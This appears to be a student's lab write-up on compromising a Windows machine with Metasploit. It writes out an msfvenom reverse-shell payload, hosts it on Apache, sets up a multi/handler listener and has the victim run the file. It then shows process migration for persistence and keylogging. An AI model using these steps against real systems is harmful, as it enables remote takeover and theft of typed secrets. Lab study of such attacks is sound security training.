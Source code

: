 # DATE : 12-04-2025
# Reg no: 212224040196
# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig

![1con](https://github.com/user-attachments/assets/0d25e9d9-c4b8-4ac8-ac9f-345b4ec13e00)

Create a malicious executable file fun.exe using msfvenom command

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

![2venom](https://github.com/user-attachments/assets/488fa0a4-6c42-491c-af54-2ce2a5b3cebc)

copy the fun.exe into the apache /var/www/html folder

![3cp](https://github.com/user-attachments/assets/8c032d11-68d5-4cc4-92c0-9cee47f59626)

Start apache server
sudo systemctl apache2 start

![4sys](https://github.com/user-attachments/assets/e63fed3e-ece1-49ed-bf4c-c51562e9821f)

Check the status of apache2

![5stat](https://github.com/user-attachments/assets/e0b4745e-2798-4a07-8cc6-04851015a04e)

Invoke msfconsole:

![6msfc](https://github.com/user-attachments/assets/64acdbd3-c086-4101-95b6-ce6e4d81b73b)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![7help](https://github.com/user-attachments/assets/4e8232ee-33aa-4455-8a72-391b4eff3d01)


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

![8](https://github.com/user-attachments/assets/39b60011-8a30-4c59-bab3-083e062e2632)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads.

![8download](https://github.com/user-attachments/assets/a26d4eb4-dbc9-4a69-8328-a0fa2cfdf942)

Bypass any warning boxes, double-click the file, and allow it to run.

![9show](https://github.com/user-attachments/assets/8a60e1e0-626d-4d52-a331-18887ba75425)

On kali give the command exploit

![10com](https://github.com/user-attachments/assets/1218d326-1024-4702-83f1-8eac34ba66a4)

To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running 

![11sho](https://github.com/user-attachments/assets/472c76bb-f732-4508-9d82-92bcc8f7b255)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe

![12mig](https://github.com/user-attachments/assets/39eab6b3-a07a-4412-8760-2de39ec788b7)

at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted

![13sho](https://github.com/user-attachments/assets/f7c48cdc-d11f-4515-b053-87173525947b)

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![15keyscan](https://github.com/user-attachments/assets/ddfc16fa-9ae9-44dd-880f-7d15c2feb0c1)



## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
